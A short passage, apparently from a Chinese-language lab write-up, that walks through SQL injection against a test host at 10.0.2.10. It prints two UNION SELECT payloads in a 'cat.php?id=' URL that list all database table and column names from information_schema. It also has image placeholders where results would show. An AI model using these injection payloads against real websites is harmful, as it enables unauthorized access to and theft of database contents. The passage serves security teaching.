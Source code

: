 d、获取数据库所有表名：```http://10.0.2.10/cat.php?id=1 UNION SELECT 1,table_name ,3,4 FROM information_schema.tables```

显示如下：

![image](13.jpg)

e、获取数据库所有列名：```http://10.0.2.10/cat.php?id=1 UNION SELECT 1,column_name ,3,4 FROM information_schema.columns```

显示如下：
